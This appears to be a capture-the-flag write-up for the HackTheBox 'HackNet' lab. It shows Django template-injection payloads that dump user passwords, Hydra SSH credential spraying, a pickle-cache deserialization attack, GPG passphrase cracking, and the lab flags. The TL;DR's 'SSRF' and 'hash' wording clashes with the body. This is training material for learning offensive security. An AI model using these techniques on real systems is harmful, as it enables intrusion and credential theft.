



## TL;DR

We exploit `SSRF` on this `Django` platform to get `IDOR` and leak all users hashes, then we crack `mikey`'s hash and login using ssh as `mikey`. 
After, we exploit vulnerable pickling in django cache based files, and achieve `RCE`, and shell as `sandy`. 
From there, we find `gpg` private key, brute force the passphrase and decrypt the backup01.sql file, which contains the root password.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oN nmap.txt
```


we can see port `22` for `ssh` and port `80` for `nginx`.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://hacknet.htb/
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `hacknet.htb` to our `/etc/hosts`:
```bash
10.10.11.85     hacknet.htb
```

### Exploiting SSTI to get IDOR which gives password for users

I scanned the whole pages, I tried to upload webshell for a while but for some reason it didn't work.
Later, i understood this is python framework behind the scenes, more specific `Django` framework, so it simply not executing `php` files.

So, i kept looking for vulnerabilities, until i noticed `SSTI` vulnerability.

First I set my name to {{7*7}} 


Then, i want to http://hacknet.htb/explore, and put like to the first user i saw, in this case "glitch".
After putting like, i clicked the "likes" to see who put likes over this post, and saw that something went wrong.


I tried different payloads from https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python, to detect exactly what is the framework behind the scenes.


I tried `ih0vr{{364|add:733}}d121r`, and got back `ih0vr1097d121r`, which is pointing over `Django` framework behind the scenes.


The problem with that is that `DTL`, or `Django Template Langauge` is very strict, so i can't execute commands at all, or even include variables that are globals.
The only thing i can do is to include variables that are in context, which means the Template Engine uses on run.

First, i tried the `users` variable, because it probably exists, something that holds all the users on the page, to print their attributes and use their image. I sent this payload: {{ users }}:

I got back this response:


Which after html decoding gave me:
```py
<QuerySet [<SocialUser: hexhunter>, <SocialUser: rootbreaker>, <SocialUser: netninja>, <SocialUser: shadowmancer>, <SocialUser: stealth_hawk>, <SocialUser: virus_viper>, <SocialUser: brute_force>, <SocialUser: {{ users.values }}>, <SocialUser: {{ users }}>]>
```

Okay, let's get the values, using {{ users.values }}:

I got this long response:


Which after decoding:
```py
<QuerySet [{'id': 2, 'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!', 'picture': '2.jpg', 'about': 'A seasoned reverse engineer specializing in binary exploitation. Loves diving into hex editors and uncovering hidden data.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 3, 'email': 'rootbreaker@exploitmail.net', 'username': 'rootbreaker', 'password': 'R00tBr3@ker#', 'picture': '3.jpg', 'about': 'Expert in privilege escalation and bypassing security measures. Always on the lookout for new zero-day vulnerabilities.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 13, 'email': 'netninja@hushmail.com', 'username': 'netninja', 'password': 'N3tN1nj@2024', 'picture': '13.png', 'about': 'Network security expert focused on intrusion detection and prevention. Known for slicing through firewalls with ease.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 16, 'email': 'shadowmancer@cypherx.com', 'username': 'shadowmancer', 'password': 'Sh@d0wM@ncer', 'picture': '16.png', 'about': 'A master of disguise in the digital world, using cloaking techniques and evasion tactics to remain unseen.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 20, 'email': 'stealth_hawk@exploitmail.net', 'username': 'stealth_hawk', 'password': 'St3@lthH@wk', 'picture': '20.jpg', 'about': 'Focuses on stealth operations, avoiding detection while infiltrating systems. A ghost in the machine.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 23, 'email': 'virus_viper@securemail.org', 'username': 'virus_viper', 'password': 'V!rusV!p3r2024', 'picture': '23.jpg', 'about': 'A malware creator focused on developing viruses that spread rapidly. Known for unleashing digital plagues.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 24, 'email': 'brute_force@ciphermail.com', 'username': 'brute_force', 'password': 'BrUt3F0rc3#', 'picture': '24.jpg', 'about': 'Specializes in brute force attacks and password cracking. Loves the challenge of breaking into locked systems.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 31, 'email': 'simple1@gmail.com', 'username': '{{ users.values }}\r\n', 'password': '1', 'picture': 'profile.png', 'about': '', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': True, 'two_fa': False}]>
```

This basically gave me the usernames and passwords of all users that put like over this page!
For example, `'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!'`.

Now, we'll use this python script to fetch all passwords and usernames, notice in the case above, we want no the username, rather the left side if `hexhunter@ciphermail.com`, the name of the user from the mail:
```py

```

And we got this list:
```bash
blackhat_wolf:Bl@ckW0lfH@ck
brute_force:BrUt3F0rc3#
bytebandit:Byt3B@nd!t123
codebreaker:C0d3Br3@k!
cryptoraven:CrYptoR@ven42
cyberghost:Gh0stH@cker2024
darkseeker:D@rkSeek3r#
datadive:D@taD1v3r
deepdive:D33pD!v3r
exploit_wizard:Expl01tW!zard
glitch:Gl1tchH@ckz
hexhunter:H3xHunt3r!
mikey:mYd4rks1dEisH3re
netninja:N3tN1nj@2024
packetpirate:P@ck3tP!rat3
phreaker:Phre@k3rH@ck
rootbreaker:R00tBr3@ker#
shadowcaster:Sh@d0wC@st!
shadowmancer:Sh@d0wM@ncer
shadowwalker:Sh@dowW@lk2024
stealth_hawk:St3@lthH@wk
trojanhorse:Tr0j@nH0rse!
virus_viper:V!rusV!p3r2024
whitehat:Wh!t3H@t2024
zero_day:Zer0D@yH@ck
```

Then, we can use hydra to trying all credentials:
```bash
┌──(agonen㉿kali)-[~/htb/HackNet]
└─$ hydra -C credentials.txt hacknet.htb ssh   
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-25 23:11:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking ssh://hacknet.htb:22/
[22][ssh] host: hacknet.htb   login: mikey   password: mYd4rks1dEisH3re
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-25 23:11:40
```
And we got valid credentials, `mikey \ mYd4rks1dEisH3re`


get the user flag:
```bash
mikey@hacknet:~$ cat user.txt 
8aae1b59fc1a16b621564434b4cb2eae
```

### Exploiting pickling in session based cookies to gain shell as sandy

First when using `peass-ng` we can see that port `3306` is open, which means there is `mysql` server locally.

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports                                                                                                                                               
══╣ Active Ports (netstat)                                                                                                                                                                                                                 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                                                                                                                                                          
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```

Then, inside `settings.py` we can find the credentials for the mysql server:
```bash
mikey@hacknet:/var/www/HackNet$ cat HackNet/settings.py 

<REDACTED>

SECRET_KEY = 'agyasdf&^F&ADf87AF*Df9A5D^AS%D6DflglLADIuhldfa7w'

<REDACTED>

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'NAME': 'hacknet',
        'USER': 'sandy',
        'PASSWORD': 'h@ckn3tDBpa$$',
        'HOST':'localhost',
        'PORT':'3306',
    }
}

CACHES = {
    'default': {
        'BACKEND': 'django.core.cache.backends.filebased.FileBasedCache',
        'LOCATION': '/var/tmp/django_cache',
        'TIMEOUT': 60,
        'OPTIONS': {'MAX_ENTRIES': 1000},
    }
}

```


Then i connected using `mysql`, and fetch the table `auth_users`, however, i didn't manage to crack the hash.
```bash
MariaDB [hacknet]> select * from auth_user;
+----+------------------------------------------------------------------------------------------+----------------------------+--------------+----------+------------+-----------+-------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login                 | is_superuser | username | first_name | last_name | email | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+----------------------------+--------------+----------+------------+-----------+-------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$720000$I0qcPWSgRbUeGFElugzW45$r9ymp7zwsKCKxckgnl800wTQykGK3SgdRkOxEmLiTQQ= | 2025-02-05 17:01:02.503833 |            1 | admin    |            |           |       |        1 |         1 | 2024-08-08 18:17:54.472758 |
+----+------------------------------------------------------------------------------------------+----------------------------+--------------+----------+------------+-----------+-------+----------+-----------+----------------------------+
1 row in set (0.001 sec)
```

in addition, i fetched the table `django_session` which contains all sessions.

```bash
MariaDB [hacknet]> select * from django_session;
+----------------------------------+------------------------------------------------------------------------------------------------------------------------------------+----------------------------+
| session_key                      | session_data                                                                                                                       | expire_date                |
+----------------------------------+------------------------------------------------------------------------------------------------------------------------------------+----------------------------+
| 16k50j2o5h6my1kokdjkf9q970z4m7ma | eyJlbWFpbCI6InRlc3RAdGVzdC5jb20iLCJyZXF1ZXN0cyI6MCwibWVzc2FnZXMiOjB9:1vEPzq:Hguev9cb1U25uXLYn2w0CN3BnfhwL6ILepAyys0jNIQ            | 2025-11-13 10:35:10.472085 |
| 22433rf9gerayqm58jqutg2kjj2ur2h9 | eyJlbWFpbCI6InRlc3RAdGVzdC5jb20iLCJyZXF1ZXN0cyI6MCwibWVzc2FnZXMiOjB9:1vEQZ8:fsCuE3f_nqf9BiUIWQSLsT4jVItPxGRXLSFIq6sZiw4            | 2025-11-13 11:11:38.958809 |
| 23e8oajbpo9obihvil25xh73ghke7t4k | eyJlbWFpbCI6Im1pa2V5QGhhY2tuZXQuaHRiIiwicmVxdWVzdHMiOjAsIm1lc3NhZ2VzIjowfQ:1vEYiq:YWu2z0A76vzUSfquV8b4g4v3_cMZvQsywLbcqzYuhJI      | 2025-11-13 19:54:12.912418 |
| gisyfkygl6kj1nqww4ipqduit1ye9tce | eyJlbWFpbCI6ImJsb29keWhlbGxAZ21haWwuY29tIiwicmVxdWVzdHMiOjAsIm1lc3NhZ2VzIjowfQ:1vEbwk:e5SoIlfXqJgZ7-r2jwbj057Z-esA0z9_U52SkJoQRSU  | 2025-11-13 23:20:46.539799 |
| hqcptpkbyuaditqm1pqc4viradvqtxls | e30:1thbTc:BODVCCP-DqOYluhCoAHmO-eCm73kK4fRWVZVL559_UY                                                                             | 2025-02-24 21:38:00.029061 |
| j6krobxiadqbw3auijz53391zecozw9n | eyJlbWFpbCI6ImRhdGFkaXZlQGRhcmttYWlsLm5ldCIsInJlcXVlc3RzIjowLCJtZXNzYWdlcyI6MH0:1thXiT:b7RsuCK4aQyENjXUsWF5DcIe4hpHoyAHfJcV9ZipXCE | 2025-02-24 17:37:05.794993 |
| mv17s3dkk6z01ghs2e5pqpebya84xvbi | eyJlbWFpbCI6Im1pa2V5QGhhY2tuZXQuaHRiIiwicmVxdWVzdHMiOjAsIm1lc3NhZ2VzIjowfQ:1vEYtS:4Q8KFxYyrRAr6foHt2UsrQJCSHURof-gvEuS--Sk8hs      | 2025-11-13 20:05:10.992256 |
| u3d4hehbes58csgyklr3ny2h9zahxaqz | eyJlbWFpbCI6IjEyM0B0ZXN0LmNvbSIsInJlcXVlc3RzIjowLCJtZXNzYWdlcyI6MH0:1vESDz:WcGDUygB0rD1EQJTsJkVVNXYEfqSVVur2qyhg1rKKNc             | 2025-11-13 12:57:55.112246 |
+----------------------------------+------------------------------------------------------------------------------------------------------------------------------------+----------------------------+
8 rows in set (0.001 sec)
```

I kept looking at the `peass-ng` results, and find this:

```bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files                                                                                                                                           
  Group mikey:                                                                                                                                                                                                                             
/var/tmp/django_cache/1f0acfe7480a469402f1852f8313db86.djcache                                                                                                                                                                             
/var/tmp/django_cache/90dbab8f3b1e54369abdeb4ba1efc106.djcache
```

There two files are very interesting, it means we are using FileBasedCache on our django framework.

I searched for "cache" inside the python files, to check where it uses cache:`
```bash
mikey@hacknet:/var/www/HackNet$ grep "cache" *.py
mikey@hacknet:/var/www/HackNet$ grep "cache" */*.py
HackNet/settings.py:        'BACKEND': 'django.core.cache.backends.filebased.FileBasedCache',
HackNet/settings.py:        'LOCATION': '/var/tmp/django_cache',
SocialNetwork/views.py:from django.views.decorators.cache import cache_page
SocialNetwork/views.py:@cache_page(60)
```

As you can see, it has the cache inside `views.py`.
```py
mikey@hacknet:/var/www/HackNet$ cat SocialNetwork/views.py 
### ...
from django.views.decorators.cache import cache_page

### ....

@cache_page(60)
def explore(request):
    if not "email" in request.session.keys():
        return redirect("index")

    session_user = get_object_or_404(SocialUser, email=request.session['email'])

    page_size = 10
    keyword = ""

    if "keyword" in request.GET.keys():
        keyword = request.GET['keyword']
        posts = SocialArticle.objects.filter(text__contains=keyword).order_by("-date")
    else:
        posts = SocialArticle.objects.all().order_by("-date")

    pages = ceil(len(posts) / page_size)

    if "page" in request.GET.keys() and int(request.GET['page']) > 0:
        post_start = int(request.GET['page'])*page_size-page_size
        post_end = post_start + page_size
        posts_slice = posts[post_start:post_end]
    else:
        posts_slice = posts[:page_size]

    news = get_news()
    request.session['requests'] = session_user.contact_requests
    request.session['messages'] = session_user.unread_messages

    for post_item in posts:
        if session_user in post_item.likes.all():
            post_item.is_like = True

    posts_filtered = []
    for post in posts_slice:
        if not post.author.is_hidden or post.author == session_user:
            posts_filtered.append(post)
        for like in post.likes.all():
            if like.is_hidden and like != session_user:
                post.likes_number -= 1

    context = {"pages": pages, "posts": posts_filtered, "keyword": keyword, "news": news, "session_user": session_user}

    return render(request, "SocialNetwork/explore.html", context)

### ....

```
We can see the `@cache_page(60)`, after googling i found this. Basiclly it caches every 60 seconds when we visit the view `SocialNetwork/explore.html`:



It unserialize or pickling the data from cache files, in this case `/var/tmp/django_cache/*.djcache`, and then caching the current session.

As we can see, we don't have write and read permissions for the cache files. However, we have full control over the directory, means we can list (`r`) write and delete files (`w`) and cd to this directory (`x`).
This is huge misconfiguration, that we are going to exploit.

```bash
mikey@hacknet:/var/tmp/django_cache$ ls -la
total 16
drwxrwxrwx 2 sandy www-data 4096 Oct 31 07:00 .
drwxrwxrwt 4 root  root     4096 Oct 31 06:01 ..
-rw------- 1 sandy www-data   34 Oct 31 07:00 1f0acfe7480a469402f1852f8313db86.djcache
-rw------- 1 sandy www-data 3156 Oct 31 07:00 90dbab8f3b1e54369abdeb4ba1efc106.djcache
```

If we will put our malicious pickled files, and it will unserialize it, we can gain `RCE`, as showen here [https://leapcell.medium.com/hacking-with-pickle-python-deserialization-attacks-explained-a43d5458a0fe](https://leapcell.medium.com/hacking-with-pickle-python-deserialization-attacks-explained-a43d5458a0fe).

Here the code I used, modify rhe command, i simply used the payload from penelope, just type `payloads` and take the one you want:
```py

```

We need to first go to `http://hacknet.htb/explore`, then execute the exploit, and then go back to `http://hacknet.htb/explore`, and trigger the `RCE`.

Here you can see how I got the shell, using `penelope`.



### Privilege Escalation to Root

we execuet `peass-ng` and find the encrypted `.gpg` backups, and also the private key.
```bash
╔══════════╣ PGP Keys and Related Files
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#pgp-keys                                                                               
GPG:                                                                                                                                                                     
GPG is installed, listing keys:
/home/sandy/.gnupg/pubring.kbx
------------------------------
pub   rsa1024 2024-12-29 [SC]
      21395E17872E64F474BF80F1D72E5C1FA19C12F7
uid           [ultimate] Sandy (My key for backups) <sandy@hacknet.htb>
sub   rsa1024 2024-12-29 [E]
```
...
```bash
-rw-r--r-- 1 sandy sandy 13445 Dec 29  2024 /var/www/HackNet/backups/backup01.sql.gpg
-rw-r--r-- 1 sandy sandy 13713 Dec 29  2024 /var/www/HackNet/backups/backup02.sql.gpg
-rw-r--r-- 1 sandy sandy 13851 Dec 29  2024 /var/www/HackNet/backups/backup03.sql.gpg

-rw------- 1 sandy sandy 1255 Sep  5 11:33 /home/sandy/.gnupg/private-keys-v1.d/0646B1CF582AC499934D8503DCF066A6DCE4DFA9.key
Created: 20241229T202032
Key: (protected-private-key (rsa (n #00EDFED38969BFACDCB65C63B0E99D350C
 656E6D336CAE0E23EE523D36D6B7601C9D67DBBC71B9FE45C30FB8712F6F87F27D91C8
 BFC1FEEF891867FA0A3FE2FB132359DA62C8F18258A422A98995F3FD5EE13FD84C1F7C
 C524F5B5B121F28E91FC66EA8E9CFE3A022CCEF9E2CF4E97A67369C593D17905D221CF
 1E23BAB4127FD5#)(e #010001#)(protected openpgp-s2k3-ocb-aes ((sha1
  #5DDB23AC1FFA8390# "117049344")#6D14AC53876650E78C5E967E#)#8094E4433E
 B218E340F965D584881EA1537535A4A727FF117E23D1000424DBC9509D94B9E2365186
 82990B33E8C5B922AFFF83DE1382FBDAA8B610529C82EAD3E22EDE9EB479CCA35D250E
 2E2ABB8B077333BE707C82FC7BA347DD79A4934D411AB58A61EE346648DA2A06665004
 FF6DA43A1D706BC5B30E6A960C1AC84FBC3F196656CC7CFBFD65F823138388600E09FC
 A09E67ACD3086A07041504A398D8A50BC705243F601FA01E905BAA2921C9602CEF75AB
 EEE67B3124104DAA44D50BF305ED7A3299206D7EBF59747D58AACD4837951DDA6594FF
 1AF403472DF56CF39CDD08510CE70E179F4F1069428ABEA4C2747547E0ABF632BCA572
 C45DFC475E91983277B08A55F0471B306D61601EC0546DE8EC7053B4101A32F53F9CCF
 7F372511F1BDA639D98DFCB06036B9DF5B8C527E859593009C4463313269D2ED6329EE
 E13AE3034F9B67E97531FD85C8A8E07C0BD9FE776E64F77E7AF42A4BADE8F80DA17963
 06C9E4F06CD9EA59AB65279E7D8C34795A14E316F5#)(protected-at
  "20241229T214648")))
-rw------- 1 sandy sandy 1255 Sep  5 11:33 /home/sandy/.gnupg/private-keys-v1.d/EF995B85C8B33B9FC53695B9A3B597B325562F4F.key
Created: 20241229T202032
Key: (protected-private-key (rsa (n #00AE3AB1B35363E820D5FFE97B1258FF4E
 66E154EBB05FEAA86C8E643909C677E34A0D9597E52EC5EA132C09B578635B301DE49B
 A8D0B253EDF056A54F44086F8C354EF2D8B9B426300B1E4230AB8C2418725C6F900EF7
 8F655E503A682FFE0AE066FEFB8B1ED62B21238DECBC943C0C9C99FF302A713B9D7F60
 E16634D3493CCB#)(e #010001#)(protected openpgp-s2k3-ocb-aes ((sha1
  #8874ABE8ABF024B9# "117049344")#8B7469136170828B25D62236#)#2496B72E23
 3774274824886861CAB2AF3A9C7FE7D572AF5C48C977FFEB224B4492E5018852E308A2
 5B4C8A9326DF1F7932DC788EC00A0C9CEFF0DF95A4E4E164D8B3C4632647BD38697F8A
 7609367C20B294B632E3ACFFCD42F3018E89665B41916527DBF4236D1ACE3E0054F9FC
 FA37D39089D378CF242292B3FAA0FFA32883185339C978B7D8A72561D638584FD6B8F0
 CFBD4A5AD0195CC4E208BCA9EEA92232FA392016BB29BE43C6E72CC28DB173DA125EBB
 F78F1ED001C60C23403BFB87CB483E1E9AC564D81D3E1955E3D91273D5279B602FD174
 A16AAAE10E0DAD8CB144FBA5EB388B6ABFB98C5827416E3C2D16B662C0D0E81E8C1B8B
 0C7B5B6E0BC1652DF0912EA111B1F3F7DC055C90E0C798DF7A00F751375A2C6728C95B
 9EB0FD895F7EBD3639830B8D742496EB21108F56745C5B95B49B8B598C0E3F5EE369FB
 6B61622B77BF474114A88B8D85D98D4531221DDAD36600D2679D6294D1841255995FD6
 F15BCFD410296ED7C2044057B59F3E60524563580A#)(protected-at
  "20241229T214646")))

drwx------ 4 sandy sandy 4096 Oct 31 11:24 /home/sandy/.gnupg
```

I tried to decrypt the backup, by importing the private key and then decrypting using the private key:
```bash
gpg --import ~/.gnupg/private-keys-v1.d/armored_key.asc
gpg --decrypt /var/www/HackNet/backups/backup01.sql.gpg
```

However, we needed to give passphrase :(

So, I used `john the ripper` to brute force the password :)

```bash
┌──(agonen㉿kali)-[~/htb/HackNet]
└─$ gpg2john armored_key.asc > hashes.txt

File armored_key.asc
                                                                                                                                                             
┌──(agonen㉿kali)-[~/htb/HackNet]
└─$ john hashes.txt --wordlist /usr/share/wordlists/rockyou.txt --format=gpg

┌──(agonen㉿kali)-[~/htb/HackNet]
└─$ john hashes.txt --show                                                  
Sandy:sweetheart:::Sandy (My key for backups) <sandy@hacknet.htb>::armored_key.asc

1 password hash cracked, 0 left
```
So, the passphrase is `sweetheart`.


```bash
sandy@hacknet:~$ gpg -o ~/backup01.sql --decrypt /var/www/HackNet/backups/backup01.sql.gpg 
gpg: encrypted with 1024-bit RSA key, ID FC53AFB0D6355F16, created 2024-12-29
      "Sandy (My key for backups) <sandy@hacknet.htb>"
sandy@hacknet:~$ gpg -o ~/backup02.sql --decrypt /var/www/HackNet/backups/backup02.sql.gpg 
gpg: encrypted with 1024-bit RSA key, ID FC53AFB0D6355F16, created 2024-12-29
      "Sandy (My key for backups) <sandy@hacknet.htb>"
sandy@hacknet:~$ gpg -o ~/backup03.sql --decrypt /var/www/HackNet/backups/backup03.sql.gpg 
gpg: encrypted with 1024-bit RSA key, ID FC53AFB0D6355F16, created 2024-12-29
      "Sandy (My key for backups) <sandy@hacknet.htb>"
gpg: decryption failed: No secret key
```

Let's fetch this files and analyze them, we decrypted only two files.

I've got no power to analyse, just `grep` for password :D



So, the root password is `h4ck3rs4re3veRywh3re99`.

```bash
sandy@hacknet:~$ su root
Password: 
root@hacknet:/home/sandy# cat /root/root.txt
54e076768594af0a6f9321546fdc8f93
```


**User Flag:*****`8aae1b59fc1a16b621564434b4cb2eae`***

**Root Flag:*****`54e076768594af0a6f9321546fdc8f93`***
